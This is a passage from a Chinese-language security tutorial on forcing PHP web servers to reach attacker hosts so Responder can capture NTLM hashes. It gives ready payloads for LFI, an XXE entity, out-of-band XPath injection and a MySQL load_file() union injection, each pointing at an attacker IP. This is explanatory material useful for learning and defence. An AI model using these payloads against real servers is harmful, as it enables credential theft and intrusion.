 <br>

**本地文件包含(LFI)**

在PHP中，利用include()函数可以实现解析网络路径的目的(在这里，大家自己想一下，为什么需要触发网络路径解析，触发网络路径解析后，为什么responder工具就有可能会抓取到NTLM HASH值呢？)。利用方法如下图：

```
http://host.tld/?page=//11.22.33.44/@OsandaMalith
```

下图是实验结果：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c55a8c4ac2ee3766.png)

<br>

**XML外部实体注入(XXE)**

在这里，我使用了“php://filter/convert.base64-encode/resource=”脚本，该脚本能解析网络路径。



```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE root [&lt;!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=//11.22.33.44/@OsandaMalith" &gt;
]&gt;
&lt;root&gt;
  &lt;name&gt;&lt;/name&gt;
  &lt;tel&gt;&lt;/tel&gt;
  &lt;email&gt;OUT&amp;xxe;OUT&lt;/email&gt;
  &lt;password&gt;&lt;/password&gt;
&lt;/root&gt;
```

下图是实验结果：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0139fdd47046dad715.png)

<br>

**XPath注入(XPath Injection)**

通常，在out-of-band(OOB) XPath注入攻击中，doc()函数可用于解析网络路径。利用方法如下：

```
http://host.tld/?title=Foundation&amp;type=*&amp;rent_days=* and doc('//35.164.153.224/@OsandaMalith')
```

下图是实验结果：

[![](./img/85791/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013083681d4df264b9.png)

<br>

**MySql注入**

在MySql out-of-band注入中，我写了一篇完整的[帖子](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)，大家可以看一下，可用到互联网中。你也可以使用“INTO OUTFILE”去解析一个网络路径。利用方法如下：

```
http://host.tld/index.php?id=1’ union select 1,2,load_file(‘\\192.168.0.100\@OsandaMalith’),4;%00
```
